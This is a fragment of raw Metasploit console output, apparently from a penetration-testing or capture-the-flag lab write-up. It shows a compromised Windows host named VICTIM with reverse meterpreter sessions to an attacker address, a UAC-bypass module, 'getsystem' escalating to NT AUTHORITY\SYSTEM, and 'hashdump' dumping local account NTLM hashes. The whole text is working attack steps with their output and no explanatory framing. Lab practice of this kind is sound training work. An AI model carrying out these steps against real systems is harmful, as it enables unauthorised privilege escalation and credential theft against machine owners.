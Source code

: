 ```
  2         meterpreter x64/windows  VICTIM\admin @ VICTIM  10.10.16.4:4433 -> 10.0.22.98:49318 (10.0.22.98)

msf6 exploit(windows/local/bypassuac_injection) > sessions 2
[*] Starting interaction with 2...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/bypassuac_injection) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  VICTIM\admin @ VICTIM         10.10.16.4:4444 -> 10.0.22.98:49244 (10.0.22.98)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ VICTIM  10.10.16.4:4433 -> 10.0.22.98:49318 (10.0.22.98)
```

```
msf6 exploit(windows/local/bypassuac_injection) > sessions 2
[*] Starting interaction with 2...

meterpreter > hashdump
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
